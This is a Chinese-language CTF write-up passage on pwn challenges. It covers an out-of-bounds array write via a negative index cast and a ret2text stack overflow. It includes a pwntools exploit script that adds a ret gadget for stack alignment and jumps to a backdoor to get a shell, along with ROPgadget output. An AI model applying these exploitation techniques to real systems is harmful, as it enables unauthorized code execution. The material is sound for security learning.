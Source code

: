 ![](https://i.loli.net/2021/09/24/jA2zObZ89uMnwSl.png)

-125选择栈上的一个位置，在后面赋值的时候可以设法更改return地址，从而控制程序流

赋值时有一个类型转换，可以使得数组越界，即-125转换后就是131

![](https://i.loli.net/2021/09/24/GwOKCqruYnNVMF2.png)

var_208距离return有132个int的偏移，但是数组首个位置为0，所以要更改131位置的值

### ret2text

这道题有个栈对齐的问题，需要在返回地址加入若干个ret的指令

```python
from pwn import *
p = remote('pwn.blackbird.wang', 9502)
backdoor = 0x400687
ret = 0x0000000000400546
payload = b'a' * (10 + 8) + p64(ret) + p64(backdoor)
p.send(payload)
p.interactive()
```

![没修栈](https://i.loli.net/2021/09/24/AnRXZl4mh3ypdjD.png)

gdb调试时只要可以进入控制程序流进入system, 但是没拿shell，就可以加个ret试验，一个不行就两个

![调试的时候卡住了](https://i.loli.net/2021/09/24/IW8CkLzcRUnrTp6.png)

ret指令的获取

```shell
$ ROPgadget --binary ret2text | grep ret 
0x00000000004005c9 : add ah, dh ; nop dword ptr [rax + rax] ; ret
0x00000000004005cf : add bl, dh ; ret
0x00000000004007ad : add byte ptr [rax], al ; add bl, dh ; ret
0x00000000004007ab : add byte ptr [rax], al ; add byte ptr [rax], al ; add bl, dh ; ret
0x0000000000400730 : add byte ptr [rax], al ; add byte ptr [rax], al ; leave ; ret
0x00000000004007ac : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
0x0000000000400731 : add byte ptr [rax], al ; add cl, cl ; ret
0x0000000000400732 : add byte ptr [rax], al ; leave ; ret
0x0000000000400606 : add byte ptr [rax], al ; pop rbp ; ret
0x00000000004005ce : add byte ptr [rax], al ; ret
0x0000000000400605 : add byte ptr [rax], r8b ; pop rbp ; ret
0x00000000004005cd : add byte ptr [rax], r8b ; ret
0x0000000000400667 : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000400733 : add cl, cl ; ret
0x0000000000400668 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
0x0000000000400543 : add esp, 8 ; ret
0x0000000000400542 : add rsp, 8 ; ret
0x00000000004005c8 : and byte ptr [rax], al ; hlt ; nop dword ptr [rax + rax] ; ret
0x000000000040078c : fmul qword ptr [rax - 0x7d] ; ret
0x00000000004005ca : hlt ; nop dword ptr [rax + rax] ; ret
0x0000000000400734 : leave ; ret
0x0000000000400662 : mov byte ptr [rip + 0x200a1f], 1 ; pop rbp ; ret
0x000000000040072f : mov eax, 0 ; leave ; ret
0x0000000000400697 : nop ; pop rbp ; ret
0x0000000000400603 : nop dword ptr [rax + rax] ; pop rbp ; ret
0x00000000004005cb : nop dword ptr [rax + rax] ; ret
0x0000000000400645 : nop dword ptr [rax] ; pop rbp ; ret
0x0000000000400665 : or ah, byte ptr [rax] ; add byte ptr [rcx], al ; pop rbp ; ret
0x000000000040079c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040079e : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004007a0 : pop r14 ; pop r15 ; ret
0x00000000004007a2 : pop r15 ; ret
```